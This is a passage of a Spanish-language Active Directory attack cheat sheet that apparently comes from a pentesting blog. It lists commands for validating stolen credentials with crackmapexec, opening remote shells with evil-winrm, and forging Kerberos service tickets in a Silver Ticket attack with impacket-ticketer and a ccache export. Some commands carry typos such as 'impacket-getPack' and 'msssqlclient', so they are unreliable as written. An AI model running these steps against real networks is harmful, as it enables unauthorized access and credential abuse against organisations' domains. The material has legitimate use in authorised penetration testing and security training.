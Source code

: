 -   `cme smb/winrm <IP> -u <user> -p <password>`
    
-   ✅ Si pone "Pwn3d" ➡️ Puedo usar `evilwinrm` para conectarme:
    
    -   `evilwinrm -i <dns> -u <User> -p <Pass>`
        
    -   `evil-winrm -i <IP> -c <cert.pem> -k <key.pem> -S`
        

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-2-tgt-tgs "Permalink")2️⃣ TGT / TGS

🔻 Probar ataques TGS / TGT explicados anteriormente

-   Me dan credenciales❓
    
    -   ✅ comprobarlas con crackmapexec
        
        -   Me sirven para evilwinrm❓
            
            -   ✅ Las uso para conectarme
                
            -   ❌ Las uso para enumerar smb, bloodhoud, etc.
                

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-3-silver-ticket-attack "Permalink")3️⃣ Silver ticket attack

🔻 Tengo SPN, SID y password de un usuario y quiero acceder a X servicio❓

-   ✅ Silver Ticket Attack: ▫️ Saco SPN con ataque ASRep-Roasting.
    
-   Hasheo la password en un hasher NTLM online
    
-   SID con `impacket-getPack`
    
    -   `impacket-getPac -targetUser administrator <dns>/<user>:<pass>`
-   ▫️ Tengo ya todos los datos❓
    
    -   ✅ Creo el TGS
        
        `impacket-ticketer -nthash <hash> -domain-sid <SID> -domain <dns> -dc-ip <dns> -spn <spn/<puerto< administrator`
        
    -   Lo uso para conectarme:
        
        -   Exporto el ccache file primero `KRB5CCNAME = administrator.ccache`
            
        -   Me conecto: `impacket-msssqlclient -k <DNS>` (depende del servicio. No siempre es mssql)
